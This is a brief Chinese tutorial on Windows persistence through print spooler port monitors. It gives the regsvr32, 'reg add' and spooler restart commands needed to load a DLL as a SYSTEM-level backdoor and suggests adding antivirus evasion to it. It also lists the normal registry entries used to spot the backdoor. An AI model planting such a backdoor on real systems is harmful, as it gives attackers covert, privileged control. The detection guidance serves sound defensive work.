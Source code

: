 
### 设置后门
测试dll可用: `regsvr32 /s /u poc.dll`, poc编译为dll,放到`C:\Windows\System32`目录下，然后设置注册表:

```
reg add "hklm\system\currentcontrolset\control\print\monitors\monitor" /v "Driver" /d "print.dll" /t REG_SZ
```
因为打印机是以`System`权限启动的，一般机器都是开机启动，这个是很不错的后门方式，在dll里面可以增加分离免杀或者更新dll的功能，这个dll可以设置多个，只要键名不一样即可。

### 测试触发

```
sc stop spooler
sc start spooler
```

### 排查后门

正常情况下打印机的注册表是下面这几个，位置:`\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\`

* Local Port
* Standard TCP/IP Port
* USB Monitor
* WSD Port

### 参考资料
* <https://wh0ale.github.io/2019/01/23/2019-1-23-%E5%90%8E%E6%B8%97%E9%80%8F%E8%AF%A6%E8%A7%A3/>
* <https://pentestlab.blog/2019/10/28/persistence-port-monitors/>
* <https://xz.aliyun.com/t/8095#toc-11>
* <https://attack.mitre.org/techniques/T1547/010/>
* <https://www.ired.team/offensive-security/persistence/t1013-addmonitor>